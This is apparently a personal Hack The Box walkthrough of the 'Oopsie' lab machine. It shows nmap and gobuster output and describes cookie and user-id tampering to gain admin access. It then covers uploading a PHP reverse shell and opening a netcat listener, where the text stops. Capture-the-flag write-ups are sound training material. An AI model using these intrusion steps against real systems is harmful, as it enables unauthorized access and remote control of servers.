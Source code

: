 ```yaml
---
title: Oppsie - A Hack The Box machine 
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - tools
---
```


# Oopsie - A Hack The Box machine


```bash
nmap -sC -sV $ip -Pn
```

```
Host is up (0.034s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61e43fd41ee2b2f10d3ced36283667c7 (RSA)
|   256 241da417d4e32a9c905c30588f60778d (ECDSA)
|_  256 78030eb4a1afe5c2f98d29053e29c9f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Open browser. From scripts called in home page you extract this path:

```
<script src="/cdn-cgi/login/script.js"></script>
```

Then you are in a login page that provides a way to login as a guest. 

When logged in, and being a guest pay attention to cookies:


![cookies and users](img/oopsie1.png)

Now, in browser change id 2 to id 1 to see if data from other user is exposed.

![user exposure](img/oopsie2.png)

It is. Change the value of the cookies in the browser to be admin.

![now we are admin](img/oopsie3.png)

Upload a php reverse shell. I usually use the [pentesmonkey one](pentesmonkey.md).

Now I use gobuster to enum possible locations for the upload:

```bash
gobuster dir -u http://10.129.95.191 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt  -t 20
```

```
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.95.191
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 315] [--> http://10.129.95.191/images/]
/themes               (Status: 301) [Size: 315] [--> http://10.129.95.191/themes/]
/uploads              (Status: 301) [Size: 316] [--> http://10.129.95.191/uploads/]
/css                  (Status: 301) [Size: 312] [--> http://10.129.95.191/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.129.95.191/js/]
/fonts                (Status: 301) [Size: 314] [--> http://10.129.95.191/fonts/]
Progress: 87567 / 87665 (99.89%)
===============================================================
==============================================================
```

Nice, but being user admin I can not get into http://10.129.95.191/uploads/.

Is there any other user with more permissions? I will use BurpSuite Intruder to enumerate possible users based on object serialization (id). This  would be the endpoint: http://10.129.95.191/cdn-cgi/login/admin.php?content=accounts&id=30

User id 30 is super admin. With this I update my cookies and now I'm able to access http://10.129.95.191/uploads/pentesmonkey.php. Before that:

```bash
nc -lnvp 1234
```


